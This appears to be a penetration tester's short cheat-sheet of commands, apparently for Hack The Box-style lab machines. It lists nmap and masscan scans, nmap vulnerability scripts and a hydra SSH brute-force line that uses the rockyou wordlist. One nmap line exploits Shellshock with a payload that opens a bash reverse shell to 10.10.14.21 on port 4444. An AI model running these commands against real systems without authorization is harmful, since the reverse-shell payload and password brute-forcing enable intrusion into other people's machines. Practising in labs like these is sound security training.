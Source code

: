 ###
```
nmap -sV -sC -oA ip 
nmap --script vuln -oA vuln-scan 10.10.10.79
nmapAutomater
autorecon
https://www.stationx.net/nmap-cheat-sheet/


```
```
nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=bin/bash /bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" 10.129.1.175
```
```
sudo masscan -p1-65535,U:1-65535 10.10.10.161 --rate=1000 -e tun0
```
### hydra
```
 hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
 ```

https://www.stationx.net/nmap-cheat-sheet/
### Vuln
```
nmap --script vuln -oA vuln-scan 10.10.10.79

```
